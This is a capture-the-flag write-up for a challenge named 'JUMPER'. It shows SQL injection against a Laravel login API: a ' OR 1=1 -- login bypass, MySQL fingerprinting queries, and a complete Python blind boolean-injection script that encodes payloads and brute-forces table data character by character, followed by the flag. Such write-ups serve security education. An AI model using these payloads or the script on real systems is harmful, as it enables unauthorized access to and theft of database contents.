

# JUMPER
### Description
```http
We're given service url
http://tokyo.ctf.protergo.party:10002
it turns out the service is running on laravel

HTTP/1.1 200 OK
Server: nginx/1.25.3
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/8.1.27
Cache-Control: no-cache, private
Date: Thu, 08 Feb 2024 20:17:39 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6InkyT1h1aVlLUkFjMWJqUkk3b0J5Vnc9PSIsInZhbHVlIjoieit6K3QwK0g1dmZoM3dlR1RrZHBya0FTMkJURVd1V0FFMXNIK1dyVjJKRnlBanlMemxsWWlKQ2hyZVluTnhWTTgrcmlhakxvOC85NTR4UW5XVHE0Y2ZmNmZwSUliRk1oM216VEFTV2VweGpNclFSYjNxcjBLbllkb0Q2cko0alMiLCJtYWMiOiJlOTA3NTNlMTk2ZTJjZWY2NDUwY2ZjNWI1N2QyMWY5YWJiZDY1ZGYzOGJhZTlmMGEwMTMwNTRhZDk4NmRmMGU0IiwidGFnIjoiIn0%3D; expires=Thu, 08 Feb 2024 22:17:39 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=8zthN5IlNn40ovTlvaIqmiTIUV2GdN2ngZpPl3JN; expires=Thu, 08 Feb 2024 22:17:39 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 4395

```
### VULN DETECTION



It appears to be a login form, let's try **SQL INJECTION** exploit by inserting **' " or `**


|username|result|
|-|-|
|test| {"success":false,"message":"OK","data":[]}            | {test: 'test'}            |
| test'          | {"message": "Server Error"}

### Payload Search


Turns out the service exploit runs using ' 
at this point we can try using common bypass login ' OR 1=1 -- and turns out we bypass the login
{"success":**true**,"message":"OK","data":[]} 
|username|result|
|-|-|
|test' OR 1=1 --|{"success":**true**,"message":"OK","data":[]}| {test: 'test'}|
|test' OR 1=2 --|{"success":**false**,"message":"OK","data":[]}


#### DBMS Detection

|Database type| 	Query|
|-|-|
|Microsoft, MySQL| 	SELECT @@version|
|Oracle| 	SELECT * FROM v$version|
|PostgreSQL| 	SELECT version() |

|username|result|
|-|-|
|' OR 1=(SELECT v$version) -- |{"message": "Server Error"}|
|' OR 1=(SELECT @@version) -- |{"success":**false**,"message":"OK","data":[]}|


the DBMS either Microsoft or MySql, we can confirm this with INFORMATION_SCHEMA DB with 
```
' OR 1=(SELECT COUNT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA) --
```

if we got an error it has to be Microsoft. since we got no error it has to be MySql

Now we're try to inject it with Blind boolean since we're know when 1=1 result "success":**true** and 1=2 result "success":**false**


|username|result|
|-|-|
|test' OR 1=1 --|{"success":**true**,"message":"OK","data":[]}|
|test' OR 1=2 --|{"success":**false**,"message":"OK","data":[]}|


Now we're try to inject it with Blind boolean since we're know when 1=1 result "success":**true** and 1=2 result "success":**false** 
```
' OR 1=(SELECT CASE WHEN ({})=HEX({}) THEN 1 ELSE 2 END); -- 
```
NOTE: Since the payload is base64 encoded string, we need to encode the payload to base64


## SOLUTION
```py
import requests
import base64
import string


def req (payload):
    session = requests.Session()
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    url = "http://tokyo.ctf.protergo.party:10002"
    token = session.get(url+"/api/token", headers=headers).json()['data']['token'] 
    ## SINCE THE TOKEN IS ONE TIME USE THEN WE NEED TO FETCH IT
    data = {
        "username":base64.b64encode(payload.encode()).decode(),
        "password":"YXNk",
        "token":token
    }
    a = session.post(url+"/api/login", headers=headers, data=data)
    return a.json()


brute = string.ascii_letters+"{}_0123456789"
x = 1
tmp = ""
dbname = "laravel"
table = "flag"
column = "fl4g_c0lumn5"
offset = 0
BASE_INJECTION = "' OR 1=(SELECT CASE WHEN ({})=HEX({}) THEN 1 ELSE 2 END); -- "
# SELECT HEX(SUBSTR(DATABASE(), {},1))) GET DB NAME
# SELECT HEX(SUBSTR(TABLE_NAME, {},1)) FROM information_schema.TABLES WHERE TABLE_SCHEMA='{}' LIMIT 1 OFFSET {} GET TABLE NAME
# SELECT HEX(SUBSTR(COLUMN_NAME, {},1)) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{}' AND TABLE_NAME='{}' LIMIT 1 OFFSET {offset} # GET COLUMN
# SELECT HEX(SUBSTRING({}, {}, 1)) FROM {} LIMIT 1 OFFSET {} DUMP DATA
injection = "SELECT HEX(LENGTH({})) FROM {} LIMIT 1 OFFSET {}" # DETECTING DATA LENGTH
for i in range(10000):
    if req(BASE_INJECTION.format(injection.format(column, table, offset), f"{i}"))["success"]:
        data_length = i
        print("DATA LENGTH:",data_length)
        break

injection = "SELECT HEX(SUBSTRING({}, {}, 1)) FROM {} LIMIT 1 OFFSET {}"
while x <= data_length:
    for i in brute:
        payload = BASE_INJECTION.format(injection.format(column, x, table, offset), f"'{i}'")
        request = req(payload)
        if request["success"]:
            tmp += i
            print(tmp)
            break
    x+=1
print(tmp)
```

FLAG: **PROTERGO{f0ac7b6358cf6269dc59819c1bf3019fc6fcc2c5f5567b8187eae87d51f25e8c}**